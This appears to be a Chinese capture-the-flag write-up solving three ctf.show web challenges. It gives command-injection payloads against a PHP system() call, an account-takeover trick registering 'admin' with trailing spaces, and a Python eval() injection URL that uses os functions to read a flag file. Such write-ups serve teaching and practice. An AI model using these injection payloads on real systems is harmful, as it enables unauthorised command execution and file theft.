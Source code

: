 ## Web
#### 签到题
```php
<?php 
if(isset($_GET['url'])){
        system("curl https://".$_GET['url'].".ctf.show");
}else{
        show_source(__FILE__);
}
 ?>
```
调用了 system() 这个函数，并且参数可控
尝试 `?url=;ls;` 会显文件，有戏
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583502837-673356-image.png]
```
?url=;cat flag;
```
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583502897-348269-image.png]

签到成功！！！~~流泪~~

----
#### 假赛生
```php
<?php
session_start();
include('config.php');
if(empty($_SESSION['name'])){
    show_source("index.php");
}else{
    $name=$_SESSION['name'];
    $sql='select pass from user where name="'.$name.'"';
    echo $sql."<br />";
    system('4rfvbgt56yhn.sh');
    $query=mysqli_query($conn,$sql);
    $result=mysqli_fetch_assoc($query);
    if($name==='admin'){
        echo "admin!!!!!"."<br />";
        if(isset($_GET['c'])){
            preg_replace_callback("/\w\W*/",function(){die("not allowed!");},$_GET['c'],1);
            echo $flag;
        }else{
            echo "you not admin";
        }
    }
}
?>
```
用 admin 随便 login 几下，估计没戏
随便注册一个帐号，提示
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583503169-167119-image.png]

想到曾经见过的一个操作 ~~（我也不知道叫啥）~~
没限制空格，注册一个 admin      （后面加点空格）
然后用这个帐号的密码就能登录 admin
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583503760-795400-image.png]

还要传一个 c，有一个正则式匹配
我真地看不懂，但是阴差阳错空着 c 就提交了
然后 flag 就出来了
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583503845-895931-image.png]

想想也对，没东西能匹配个啥

----
#### 数学及格了
在 main.js 里面找到点东西
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583504065-463074-image.png]
然后乱交了点东西，报错了
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583502627-644438-image.png]
可以看到是用的 python 的 eval() 计算的，就存在漏洞
然后就去找 eval() 的骚操作
然后，各种尝试
发现了 __import__('os') ，开始的时候用的 __import__('os').system('dir') 结果老是 0 
查了资料发现 system() 成功了会返回 0
好吧，换姿势，寻找 os 模块里的其他函数，然后找到了 listdir()
但是，他一直报错 QwQ
然而没有影响，报错的会显有我需要的东西
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583505282-951759-image.png]
然后找到 flag，用 open() 和 read() 读取
```python
http://124.156.121.112:5000/_calculate?number1=1*int(str(__import__('os').read(__import__('os').open('/home/ctf/web/flag',__import__('os').O_RDONLY),30)))
```
[upl-image-preview url=https://wp.ctf.show/assets/files/2020-03-06/1583505430-375170-image.png]


----
## Re

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTI1MDM2MTkxOF19
-->